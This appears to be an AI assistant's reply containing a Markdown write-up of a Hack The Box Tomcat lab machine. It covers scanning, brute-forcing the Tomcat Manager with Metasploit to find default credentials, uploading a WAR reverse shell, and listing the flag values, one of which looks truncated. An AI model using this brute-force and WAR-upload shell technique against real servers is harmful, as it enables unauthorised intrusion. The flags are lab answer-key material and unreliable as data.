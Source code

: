 It seems like I can’t do more advanced data analysis right now. Please try again later.

But don’t worry — I can still give you the **ready-to-save Markdown text** for your Tomcat writeup. If you copy this into a file called `Tomcat.md` on your machine, it’ll work exactly the same as the other downloadable files I made earlier:

````markdown
# 🧑‍💻 Hack The Box – (Tomcat Box)

## 📌 Overview
- **Machine Name:** (Update if known)
- **IP Address(es):** 10.10.10.95
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** Tomcat / Default Credentials / WAR Upload / Metasploit
- **Date Completed:** (Add date)
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon

### RustScan
```zsh
rustscan -a 10.10.10.95 --ulimit 5000
````

**Open Port:**

* 8080 → HTTP (Apache Tomcat)

---

## 📂 Service Enumeration

### Nmap

```zsh
nmap -sC -sV -p 8080 10.10.10.95
```

* Apache Tomcat/7.0.88
* Apache-Coyote/1.1
* Likely Tomcat Manager running at `/manager`

### Content Discovery

```zsh
feroxbuster -u http://10.10.10.95:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

Found:

* `/manager/` → Tomcat Manager Console

---

## 🚀 Exploitation

### Brute-force Tomcat Manager

```zsh
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login
```

Result:

```
[+] Login Successful: tomcat:s3cret
```

Default credentials worked.

### Upload WAR Reverse Shell

```zsh
use multi/http/tomcat_mgr_upload
```

* Uploaded `.war` file → triggered RCE
* Got Meterpreter session

---

## 🔑 Post Exploitation

Navigated to Administrator desktop:

```
C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
```

Contents:

```
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90
```

✅ Both flags found in the same file.

---

## 🏁 Flags

* **User.txt:** `7004dbcef0f854e0fb401875f26ebd00`
* **Root.txt:** `04a8b36e1545a455393d067e772fe90`

---

## 🧠 Lessons Learned

**Technical**

* Apache Tomcat often exposes `/manager` endpoint with dangerous functionality.
* Default credentials (`tomcat:s3cret`) remain common misconfigurations.
* WAR deployment is an easy path to RCE if manager access is available.

**Personal**

* Remember to try default creds when identifying Tomcat.
* Content discovery quickly confirms manager panels.

**Reusable Techniques**

* Scan for `/manager` and `/host-manager` on Tomcat servers.
* Use `msfconsole` for quick brute-force of Tomcat credentials.
* Exploit via WAR upload → immediate reverse shell access.

